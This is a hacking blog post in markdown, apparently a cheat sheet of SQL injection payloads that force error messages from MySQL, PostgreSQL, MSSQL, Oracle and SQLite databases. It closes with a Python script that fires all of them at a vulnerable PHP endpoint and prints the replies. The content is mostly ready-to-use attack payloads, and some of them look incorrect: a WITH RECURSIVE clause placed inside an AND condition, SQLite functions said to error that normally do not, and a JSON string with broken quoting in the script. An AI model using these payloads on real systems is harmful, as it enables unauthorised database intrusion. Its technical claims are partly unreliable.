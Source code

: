 ```yaml
---
title: "Forcefully Generate Errors on Various DBMS"
tags: ['Hacking', 'SQLi']
date: 2024-10-03
toc: true
unlisted: true
author: 'Ren'
authorlink: 'https://about.0x0060.dev/'
---
```


## Advanced Methods


### Use of Invalid Functions

MySQL provides many functions that, when used incorrectly, can generate errors.

```
' AND EXP(~(SELECT * FROM (SELECT 1) t)) -- 
```

### Invalid Hexadecimal Conversion

Using invalid hexadecimal values can cause errors.

```
' AND 0xG1 -- 
```

### Subqueries in SELECT Clause

Use subqueries that return multiple rows in a single value context.

```
' AND (SELECT * FROM (SELECT 1,2) t) = 1 -- 
```

## PostgreSQL

### Invalid Regular Expression

PostgreSQL's regex functions can be used incorrectly to cause errors.

```
' AND 'a' ~ 'b[' -- 
```

### Invalid JSON Operations

Use JSON functions with invalid operations.

```
' AND jsonb_path_query_first('{"a":1}', '$.a') -- 
```

### Recursive CTE

Use recursive Common Table Expressions (CTE) incorrectly.

```
' AND WITH RECURSIVE t AS (SELECT 1 UNION ALL SELECT 1 FROM t) SELECT * FROM t -- 
```

## MSSQL

### Invalid XML Queries

MSSQL’s XML functions can generate errors when used with invalid XML.

```
; DECLARE @xml XML; SET @xml = '<root><a></a><b></b></root>'; SELECT @xml.value('(/root/c)[1]', 'INT') --
```

### Invalid Data Conversion

Conversion functions can cause errors when converting incompatible data types.

```
; SELECT CAST('text' AS INT) --
```

### SQL Injection with Error Functions

Use built-in error functions to generate errors.

```
; RAISERROR('Error generated', 16, 1) --
```

## Oracle

### Invalid Data Manipulation

Oracle’s specific functions and data manipulation can cause errors.

```
' UNION SELECT UTL_INADDR.get_host_address('invalid_host') FROM dual --
```

### Invalid XMLType Usage

Use XMLType improperly to cause errors.

```
' UNION SELECT XMLType('<invalid><xml>') FROM dual --
```

### Using `SYS.DBMS_ASSERT`

Leverage Oracle’s assertion package to force errors.

```
' UNION SELECT SYS.DBMS_ASSERT.noop('invalid_input') FROM dual --
```

## SQLite

### Invalid String Functions

SQLite’s string functions can generate errors when used improperly.

```
' UNION SELECT SUBSTR('text', -1, 1) --
```

### Invalid Mathematical Operations

Use mathematical functions with invalid inputs.

```
' UNION SELECT POW('text', 2) --
```

### Invalid Date Functions

Use date functions with incorrect parameters.

```
' UNION SELECT DATE('invalid_date') --
```

## Python Script to Force Errors

Automating Error Injection:

```
import requests

url = "http://example.com/vulnerable.php"
payloads = [
    # MySQL
    "' AND EXP(~(SELECT * FROM (SELECT 1) t)) -- ",
    "' AND 0xG1 -- ",
    "' AND (SELECT * FROM (SELECT 1,2) t) = 1 -- ",
    # PostgreSQL
    "' AND 'a' ~ 'b[' -- ",
    "' AND jsonb_path_query_first('{'a':1}', '$.a') -- ",
    "' AND WITH RECURSIVE t AS (SELECT 1 UNION ALL SELECT 1 FROM t) SELECT * FROM t -- ",
    # MSSQL
    "; DECLARE @xml XML; SET @xml = '<root><a></a><b></b></root>'; SELECT @xml.value('(/root/c)[1]', 'INT') -- ",
    "; SELECT CAST('text' AS INT) -- ",
    "; RAISERROR('Error generated', 16, 1) -- ",
    # Oracle
    "' UNION SELECT UTL_INADDR.get_host_address('invalid_host') FROM dual -- ",
    "' UNION SELECT XMLType('<invalid><xml>') FROM dual -- ",
    "' UNION SELECT SYS.DBMS_ASSERT.noop('invalid_input') FROM dual -- ",
    # SQLite
    "' UNION SELECT SUBSTR('text', -1, 1) -- ",
    "' UNION SELECT POW('text', 2) -- ",
    "' UNION SELECT DATE('invalid_date') -- ",
]

for payload in payloads:
    response = requests.get(url, params={"id": payload})
    print(f"Payload: {payload}")
    print(f"Response: {response.text}\n")
```
